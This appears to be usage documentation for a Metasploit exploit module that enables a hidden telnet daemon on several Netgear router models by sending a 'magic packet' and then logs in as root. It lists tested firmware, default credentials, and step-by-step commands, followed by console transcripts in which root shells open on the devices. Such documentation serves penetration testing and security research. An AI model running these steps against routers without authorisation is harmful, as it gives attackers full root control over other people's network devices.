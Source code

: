 ## Introduction

Several models of Netgear devices have a hidden telnet daemon that can be
enabled for remote LAN users by sending a 'magic packet' to the device. 
Upon successful connect, a root shell should be presented to the user.

There are many devices which contain this daemon, for a full list see [OpenWrt](https://wiki.openwrt.org/toh/netgear/telnet.console).

This module has been successfully tested against:

 - AC1450 - unknown older firmware (TCP)
 - AC1450 - latest firmware: V1.0.0.36_10.0.17 (UDP)
 - N300 WNR2000 v3 - firmware: V1.1.2.10 (TCP)

## Setup

A MAC address is required for exploitation.  To determine the MAC address of the device:

1. Ping the device to force an ARP lookup: ```ping -c 1 [IP]```
2. Get the MAC: ```arp -an [IP]```

If you are the root user, you can skip this step. ARP will be leveraged
to find the MAC address.

## Targets

**0 (Automatic)**

Detect if a device listens on TCP or UDP.

**1 (TCP)**

Older devices usually listen on TCP.

**2 (UDP)**

Newer devices usually listen on UDP.

## Options

### MAC

Set this to the MAC address of the device. You can use `ping` and `arp`
to find it.

You can leave this blank if you're root.

### USERNAME

If this is an older device, it'll take the value of `super_username` in
`nvram`, which is usually unchanged from `Gearguy`.

If this is a newer device, it'll take the web UI username, which is
usually unchanged from `admin`.

You can leave this blank to use the default username.

### PASSWORD

If this is an older device, it'll take the value of `super_passwd` in
`nvram`, which is usually unchanged from `Geardog`.

If this is a newer device, it'll take the web UI password, which is
usually unchanged from `password`.

You can leave this blank to use the default password.

## Exploitation 

1. Make sure you have a vulnerable device
2. Start metasploit
3. ```use exploit/linux/telnet/netgear_telnetenable```
4. ```set rhost [IP]```
5. ```set mac [MAC Address]``` if not running as root
6. ```exploit```
7. Enjoy a root shell!

## Usage

### AC1450

As a normal user:

```
msf > use exploit/linux/telnet/netgear_telnetenable
msf exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf exploit(linux/telnet/netgear_telnetenable) > ping -c 1 192.168.1.1
[*] exec: ping -c 1 192.168.1.1

PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=2.04 ms

--- 192.168.1.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 2.041/2.041/2.041/0.000 ms
msf exploit(linux/telnet/netgear_telnetenable) > arp -an 192.168.1.1
[*] exec: arp -an 192.168.1.1

? (192.168.1.1) at [redacted] [ether] on wlan0
msf exploit(linux/telnet/netgear_telnetenable) > set mac [redacted]
mac => [redacted]
msf exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[+] 192.168.1.1:23 - Using creds admin:password
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.3:34833 -> 192.168.1.1:23) at 2018-03-02 19:26:25 -0600

id
id
uid=0 gid=0(root)
# uname -a
uname -a
Linux (none) 2.6.36.4brcmarm+ #16 SMP PREEMPT Wed Mar 22 15:02:38 CST 2017 armv7l unknown
#
```

As root:

```
msf > use exploit/linux/telnet/netgear_telnetenable
msf exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
rmsf exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[*] 192.168.1.1:23 - Attempting to discover MAC address via ARP
[+] 192.168.1.1:23 - Found MAC address [redacted]
[+] 192.168.1.1:23 - Using creds admin:password
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.2:37771 -> 192.168.1.1:23) at 2018-03-02 19:33:42 -0600

id
id
uid=0 gid=0(root)
# uname -a
uname -a
Linux (none) 2.6.36.4brcmarm+ #16 SMP PREEMPT Wed Mar 22 15:02:38 CST 2017 armv7l unknown
#
```
